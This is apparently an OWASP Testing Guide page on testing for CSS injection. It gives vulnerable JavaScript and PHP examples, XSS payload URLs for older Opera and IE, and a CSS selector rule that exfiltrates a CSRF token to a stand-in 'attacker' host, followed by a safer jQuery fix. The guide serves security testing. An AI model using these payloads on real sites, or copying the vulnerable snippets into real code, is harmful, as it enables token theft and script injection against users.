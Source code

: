 # Testing for CSS Injection (OTG-CLIENT-005)


### Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site, and this will be rendered inside the victim's browser. The impact of such a vulnerability may vary on the basis of the supplied CSS payload: it could lead to Cross-Site Scripting in particular circumstances, to data exfiltration in the sense of extracting sensitive data or to UI modifications.


### How to Test
Such a vulnerability occurs when the application allows to supply user-generated CSS or it is possible to somehow interfere with the legit stylesheets. Injecting code in the CSS context gives the attacker the possibility to execute JavaScript in certain conditions as well as extracting sensitive values through CSS selectors and functions able to generate HTTP requests. Actually, giving the users the possibility to customize their own personal pages by using custom CSS files results in a considerable risk, and should be definitely avoided.


The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the "location.hash" (source) which reaches the "cssText" function (sink). This particular case may lead to DOMXSS in older browser versions, such as Opera, Internet Explorer and Firefox; for reference see DOM XSS Wiki, section "Style Sinks".

```
<a id="a1">Click me</a>
<script>
  if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
  }
</script>
```


Specifically the attacker could target the victim by asking her to visit the following URLs:  <br />
```
www.victim.com/#red;-o-link:'javascript:alert(1)';-o-link-source:current; (Opera [8,12])
www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)

```

The same vulnerability may appear in the case of classical reflected XSS in which for instance the PHP code looks like the following:

```
<style>
p {
  color: <?php echo $_GET['color']; ?>;
  text-align: center;
}
</style>
```


Much more interesting attack scenarios involve the possibility to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors and leading for instance to grab anti-CSRF tokens, as follows. In particular, input[name=csrf_token][value=^a] represents an element with the attribute "name" set "csrf_token" and whose attribute "value" starts with "a". By detecting the length of the attribute "value", it is possible to carry out a brute force attack against it and send its value to the attacker's domain.

```
<style>
input[name=csrf_token][value=^a] {
  background-image: url(http://attacker/log?a);
}
</style>
```


Much more modern attacks involving a combination of SVG, CSS and HTML5 have been proven feasible, therefore we recommend to see the References section for details.


#### Black Box testing
We are referring to client-side testing, therefore black box testing is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed. However, it may happen that the user is given a certain degree of freedom in terms of possibilities to supply HTML code; in that case it is required to test whether no CSS injections are possible: tags like "link" and "style" should be disallowed, as well as attributes "style".


#### Gray Box testing
**Testing for CSS Injection vulnerabilities:**<br>
Manual testing needs to be conducted and the JavaScript code analyzed in order to understand whether the attackers can inject its own content in CSS context. In particular we should be interested in how the website returns CSS rules on the basis of the inputs.


The following is a basic example:

```
<a id="a1">Click me</a>
<b>Hi</b>
<script>
  $("a").click(function(){
    $("b").attr("style","color: " + location.hash.slice(1));
  });
</script>
```


The above code contains a source "location.hash" that is controlled by the attacker that can inject directly in the attribute "style" of an HTML element. As mentioned above, this may lead to different results on the basis of the adopted browser and the supplied payload.


It is recommended that testers use the jQuery function css(property, value) in such circumstances as follows, since this would disallow any damaging injections. In general, we recommend to use always a whitelist of allowed characters any time the input is reflected in the CSS context.

```
<a id="a1">Click me</a>
<b>Hi</b>
<script>
  $("a").click(function(){
    $("b").css("color",location.hash.slice(1));
  });
</script>
```


### References
**OWASP Resources**
* [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* DOMXSS Wiki - https://code.google.com/p/domxsswiki/wiki/CssText


**Presentations**<br>
* DOM Xss Identification and Exploitation, Stefano Di Paola - http://dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf
* Got Your Nose! How To Steal Your Precious Data Without Using Scripts, Mario Heiderich - http://www.youtube.com/watch?v=FIQvAaZj_HA
* Bypassing Content-Security-Policy, Alex Kouzemtchenko - http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx


**Proof of Concepts**<br>
* Password "cracker" via CSS and HTML5 - http://html5sec.org/invalid/?length=25
* CSS attribute reading - http://eaea.sirdarckcat.net/cssar/v2/
